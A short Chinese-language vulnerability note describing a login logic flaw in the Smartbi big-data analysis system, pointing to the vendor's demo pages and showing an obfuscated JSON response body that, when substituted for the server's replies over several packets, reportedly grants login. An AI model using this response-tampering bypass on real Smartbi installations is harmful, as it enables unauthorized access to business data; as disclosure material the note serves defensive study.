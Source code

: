 # Smartbi大数据分析系统登录页面存在逻辑缺陷漏洞

#  官方DEMO  
http://demo.smartbi.com.cn/smartbi/vision/index.jsp     
![img](images/clipboard.png)     

http://demo.smartbi.com.cn/smartbi/vision/config.jsp    

![img](images/clipboard-1584693106666.png)

将响应包报文替换如下    
{"H~CxOm~":q,"H~*2KC":CH2~,"m2HECcO'":1}     

![img](images/clipboard-1584693121058.png)  



依次替换几个报文后可成功登录系统 
 ![img](images/clipboard-1584693131304.png)